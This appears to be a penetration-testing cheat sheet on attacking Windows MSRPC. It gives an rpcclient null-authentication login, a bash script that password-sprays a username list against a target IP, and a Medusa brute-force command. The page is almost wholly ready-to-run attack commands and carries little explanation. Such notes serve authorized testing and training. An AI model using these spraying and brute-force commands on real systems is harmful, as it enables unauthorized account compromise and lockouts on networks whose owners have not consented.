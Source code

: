 # MSRPC

## 01 - Null Authentication

```
$ rpcclient -U "" [-p 593] -N <IP>
```

## 02 - Brute Force

### 2.1 - Automated Script

```bash
#!/bin/bash

while read -r username
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done < "${1}"
```

Syntax as it follows.

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```

### 2.2 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M msrpc
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Windows/Remote Services/MSRPC|Active Fingerprint: MSRPC]]